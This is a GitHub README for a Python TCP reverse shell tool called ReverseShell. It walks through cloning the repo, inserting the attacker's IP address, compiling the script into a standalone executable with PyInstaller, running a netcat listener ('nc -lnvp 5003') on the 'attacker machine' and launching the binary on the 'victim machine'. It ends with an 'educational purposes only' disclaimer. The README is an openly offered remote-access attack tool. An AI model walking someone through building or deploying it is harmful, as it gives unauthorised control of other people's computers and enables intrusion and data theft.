 ![version](https://img.shields.io/badge/Version-1.0.7-informational?style=flat&logo=&logoColor=white&color=red) ![stars](https://img.shields.io/github/stars/Keyj33k/ReverseShell?style=social) ![forks](https://img.shields.io/github/forks/Keyj33k/ReverseShell?label=Forks&logo=&logoColor=white&color=blue) ![languages](https://img.shields.io/github/languages/count/Keyj33k/ReverseShell?style=social&logo=&logoColor=white&color=blue) ![issues](https://img.shields.io/github/last-commit/Keyj33k/ReverseShell?style=flat&logo=&logoColor=white&color=blue) ![platform](https://img.shields.io/badge/Platform-Linux-informational?style=flat&logo=&logoColor=white&color=green) 

# Reverse Shell :snake:
- A python3 tcp reverse shell.

### Bash Remote Access Made Easy

---

![revsh](https://github.com/Keyj33k/ReverseShell/blob/main/img/backd_profile.jpeg?raw=true)

### :question: How to use this reverseshell? 

---

- 1 ) Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- 2 ) Now you need to navigate to the ReverseShell directory.
```
cd ReverseShell
```
- You will find a file called reverseshell.py:

### :wrench: You need to change the ipv4 address in the script:
---
![exa](https://github.com/Keyj33k/ReverseShell/blob/main/img/revshell.png?raw=true)
---
- 3 ) This reverse shell needs requirements you need to install:
```
pip install -r requirements.txt
```
- 4 ) Build an executable using this command:
```
pyinstaller --onefile reverseshell.py
```
- PyInstaller command not found?
```
pip install pyinstaller
```
### :sparkles: If the steps above are done:

---

- On the attacker machine:
```
nc -lnvp 5003
```
- NC command not found (Debian/-based)?
```
sudo apt-get install -y netcat
```

- On the victim machine:
```
./reverseshell
```
### :gem: Explained:

---

![exp](https://github.com/Keyj33k/ReverseShell/blob/main/img/reverseshell.jpeg?raw=true)

# :warning: Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
  
- Tested on 5.18.0-kali3-amd64, 5.15.0-41-generic-Ubuntu
  
---


